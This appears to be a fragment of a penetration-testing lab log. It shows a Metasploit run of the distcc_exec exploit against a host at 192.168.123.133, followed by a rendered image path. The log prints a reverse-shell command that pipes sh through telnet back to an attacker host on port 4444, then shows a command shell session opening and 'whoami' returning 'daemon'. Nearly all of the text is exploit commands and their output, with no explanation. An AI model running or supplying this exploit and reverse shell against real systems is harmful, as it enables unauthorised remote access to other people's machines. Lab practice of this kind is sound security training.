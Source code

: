 whoami
daemon
`

`msf
msf6 exploit(unix/misc/distcc_exec) > run rhost=192.168.123.133 lhost=192.168.123.1 payload=cmd/unix/reverse

[+] sh -c '(sleep 4305|telnet 192.168.123.1 4444|while : ; do sh && break; done 2>&1|telnet 192.168.123.1 4444 >/dev/null 2>&1 &)'
[*] Started reverse TCP double handler on 192.168.123.1:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo QqL1Uzom6eBFilyL;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "QqL1Uzom6eBFilyL\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.133:52314) at 2023-09-21 13:52:40 +0100

whoami
daemon
`


